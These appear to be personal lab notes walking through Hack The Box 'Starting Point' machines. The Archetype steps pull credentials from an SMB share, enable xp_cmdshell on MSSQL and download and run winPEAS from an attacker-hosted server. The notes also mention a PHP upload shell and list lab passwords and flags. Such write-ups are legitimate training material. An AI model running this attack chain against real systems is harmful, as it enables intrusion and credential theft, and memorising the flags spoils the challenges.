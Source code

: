 Explosion::
    xfreerdp:
        + /cert:ignore
        + /u:Administrator
        + /v:<ip>

Preignition::
    dirbuster:
        + admin.php Creds: admin:admin

Ignition::
    curl:
        + curl -v http://<ip>
    

Archetype:
+ smbclient - smbclient \\\\10.129.95.187\\backups
+ more prod.dtsConfig :: Password=M3g4c0rp123;User ID=ARCHETYPE/sql_svc
+ foothold :: python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
+ SQL> ! cat /etc/passwd ##Works but need a shell::
+ SQL> EXEC xp_cmdshell 'net user'; ##Searc for 'xp_cmdshell' in SQL server books online.
+ How to fix::
        1) SQL> EXEC sp_configure 'show advanced options', 1;
        2) SQL> RECONFIGURE;
        3) SQL> sp_configure;  ##Enabling the sp_configure as stated in the above error message
        4) SQL> EXEC sp_configure 'xp_cmdshell', 1;
        5) SQL> RECONFIGURE;
        6) SQL> xp_cmdshell "whoami" :: archetype\sql_svc

+ python3 -m http.server 8081
+ upload winpeas.exe
+ C:\Windows\system32\cmd.exe" /c "powershell -c cd C:/Users/sql_svc/Downloads; wget http://10.10.16.135:8081/winPEASx64.exe -outfile winP.exe; ./winP.exe
+ See ![winpeas_sql_archetype](Screenshots/sql_winpeas_archetype.png)
+ creds:: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
+ user: smb: \Users\sql_svc\Desktop user.txt :: 3e7b102e78218e935bf3f4951fec21a3
+ root: smb: \Users\Administrator\Desktop\ root.txt :: b91ccec3305e98240082d4474b848528
#https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
#https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

Oopsie::
finding accounts:
+http://<domain>/(cdn-cgi)/login/admin.php?content=accounts&id=1

after upload of .php file::
    sudo gobuster dir -u http://<domain> --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -q | grep "Status: 200"
        + /uploads/ :: visit name of file with listener shell.
user:: f2c74ee8db7983851ab2a96a44eb7981
root::